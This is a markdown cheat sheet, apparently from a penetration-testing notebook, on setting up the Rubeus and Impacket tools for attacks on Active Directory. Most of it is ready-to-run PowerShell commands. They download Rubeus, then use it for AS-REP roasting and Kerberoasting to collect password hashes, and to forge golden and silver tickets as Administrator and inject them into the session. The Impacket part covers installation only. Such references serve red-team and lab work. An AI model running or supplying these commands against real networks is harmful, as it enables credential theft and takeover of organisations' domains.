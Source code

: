 
### **🎫 Rubeus Complete Setup** ^rubeus

#### **What is Rubeus?**
**Rubeus** is a C# tool for Kerberos abuse and ticket manipulation. It's more focused and stealthy than Mimikatz for Kerberos-specific operations.

#### **Setup & Installation**
```powershell
# Step 1: Download Rubeus
Invoke-WebRequest -Uri "https://github.com/GhostPack/Rubeus/releases/latest/download/Rubeus.exe" -OutFile "Rubeus.exe"

# Step 2: Verify executable
Get-ChildItem Rubeus.exe | Select-Object Name, Length, LastWriteTime
```

#### **Rubeus Usage Examples**
```powershell
# Example 1: AS-REP roasting
.\Rubeus.exe asreproast /user:vulnerable_user /domain:corp.local /outfile:hashes.txt

# Example 2: Kerberoasting
.\Rubeus.exe kerberoast /user:service_account /domain:corp.local /outfile:service_hashes.txt

# Example 3: Golden ticket creation
.\Rubeus.exe golden /rc4:KRBTGT_HASH /domain:corp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /user:Administrator /ptt

# Example 4: Silver ticket creation
.\Rubeus.exe silver /rc4:SERVICE_ACCOUNT_HASH /domain:corp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /user:Administrator /service:MSSQLSvc /ptt
```

---

### **🌐 Impacket Complete Setup** ^impacket

#### **What is Impacket?**
**Impacket** is a collection of Python classes for working with network protocols. It includes tools for SMB, LDAP, Kerberos, and other protocols commonly used in AD environments.

#### **Setup & Installation**
```powershell
# Step 1: Install Python (if not already installed)
# Download from: https://www.python.org/downloads/

# Step 2: Install Impacket via pip
pip install impacket

# Step 3: Verify installation
python -c "import impacket; print('Impacket installed successfully')"
```
